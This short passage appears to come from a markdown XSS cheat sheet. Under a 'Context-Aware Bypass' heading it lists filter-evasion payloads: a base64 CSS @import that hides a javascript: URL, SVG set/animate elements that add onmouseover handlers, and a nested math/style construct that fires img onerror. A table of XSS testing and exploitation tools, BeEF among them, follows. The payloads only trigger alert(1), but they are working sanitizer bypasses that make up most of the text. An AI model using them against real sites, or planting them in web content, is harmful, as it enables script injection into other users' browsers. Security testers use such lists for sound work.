 \### Context-Aware Bypass

```html
# CSS Context
<style>@import 'data:text/css;base64,KiB7eD11cmwoamF2YXNjcmlwdDphbGVydCgxKSl9';</style>

# SVG Context
<svg><set attributeName="onmouseover" to="alert(1)"/>
<svg><animate attributeName="onmouseover" to="alert(1)"/>

# Math Context
<math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><style><path id="</style><img onerror='alert(1)'"></mglyph></mtext></math>
```

## Common Tools

| Tool      | Description            | Primary Use Case      |
| --------- | ---------------------- | --------------------- |
| XSStrike  | Advanced XSS detection | Automated scanning    |
| KNOXSS    | Online XSS discovery   | Quick testing         |
| XSSHunter | Blind XSS detection    | Delayed XSS finding   |
| BeEF      | Browser exploitation   | Post-XSS exploitation |
| DOMPurify | XSS sanitization       | Prevention testing    |